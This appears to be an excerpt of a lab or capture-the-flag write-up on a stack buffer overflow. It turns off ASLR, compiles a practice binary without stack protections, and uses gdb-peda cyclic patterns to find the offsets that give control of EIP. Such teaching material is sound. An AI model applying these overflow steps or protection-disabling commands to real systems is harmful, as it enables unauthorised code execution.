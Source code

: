 #### 1.2 Compilation

Terminal command to compile with debug symbols + without pie + without nx-bit + Disable canaries + Disable ASLR + for x86:

```js
sudo bash -c 'echo 0 > /proc/sys/kernel/randomize_va_space'

gcc -o 6 6.c -z execstack -fno-stack-protector -m32 -no-pie -g
```

### 2. Solution 

#### 2.1 Short Analysis with gdb-peda

1. Disassemble the main function.
2. Find offset.

```nasm
gdb-peda$ r <<< $(python -c "print 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAA'")

...TRIM...
Stopped reason: SIGSEGV
0x41414b41 in ?? ()
gdb-peda$ i r ebp eip
ebp            0x41354141	0x41354141
eip            0x41414b41	0x41414b41

gdb-peda$ x/wx $esp
0xffffd110:	0x36414167

gdb-peda$ pattern offset 0x36414167
910246247 found at offset: 93
gdb-peda$ pattern offset 0x41354141
1094009153 found at offset: 85
gdb-peda$ pattern offset 0x41414b41
1094798145 found at offset: 89
```

The payload that we send to binary fits as below:

```
[offset = 80]+[ebp = 85]+[eip = 89]+[esp = 93] 
      1...80 +  81...84 +  85...88 +  89...92
```

```nasm
gdb-peda$ r <<< $(python -c "print 'A'*80+'B'*4+'C'*80") 

gdb-peda$ i r ebp eip
ebp            0x41414141	0x41414141
eip            0x42424242	0x42424242
gdb-peda$ x/wx $esp
0xffffd110:	0x43434343
```
